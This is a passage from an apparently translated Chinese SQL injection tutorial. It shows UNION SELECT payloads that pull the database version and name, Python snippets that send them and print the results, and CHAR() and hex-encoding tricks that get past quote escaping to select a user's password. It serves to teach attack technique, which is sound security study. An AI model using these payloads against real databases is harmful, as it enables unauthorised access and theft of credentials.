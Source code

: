 # 关于架构的信息

我们理解模式细节的方式与前一部分没有太大的不同。
首先，我们要定义查询:

```
query_version = "-1 UNION SELECT 1, VERSION()#" 
query_database = "-1 UNION SELECT 1,DATABASE() #"
```

然后是 main 方法中的相关部分:

```
print("The database version is:") print(beautify_query_single(send_query(query_version, session)[0])) print() 
print("The database name is:") 
db_name = beautify_query_single(send_query(query_database, session)[0]) 
print(db_name) print()
```

# 如何在 SQL 注入攻击中使用不带引号的字符串

正如我们在前面的测试中所看到的，服务器很可能在逃避我们的引用，所以我们需要一种技术来绕过这个障碍。
我们有两种方法:

*   通过字符的 [ASCII](https://en.wikipedia.org/wiki/ASCII) 值连接字符
*   使用十进制表示

让我们来看看这两种情况的一个快速示例，我们希望从名为“users”的表中选择一个密码，其中用户名是“john”:

经典 SQL 查询:

```
SELECT password FROM users WHERE username='john'
```

相同的查询，但是使用了由 ASCII 值选择的字符的串联:

```
SELECT password FROM users WHERE username=CONCAT(CHAR(106),CHAR(111),CHAR(104),CHAR(110))
```

最后，让我们看看我们将在本教程中使用的技术，使用十六进制表示。

```
SELECT password FROM users WHERE username=0x6a6f686e
```

在尝试将我们刚刚学到的东西付诸实践之前，我只想向您展示如何用 Python 将字符串转换成十六进制表示

```
name = "john" 
hex_name = name.encode('utf-8').hex()
```

有了这两行简单的代码，我们就有了一个包含十六进制表示“john”的变量。我们还必须记住，MySQL 需要“0x”前缀，所以我们需要手动添加它！

# 获取表格信息
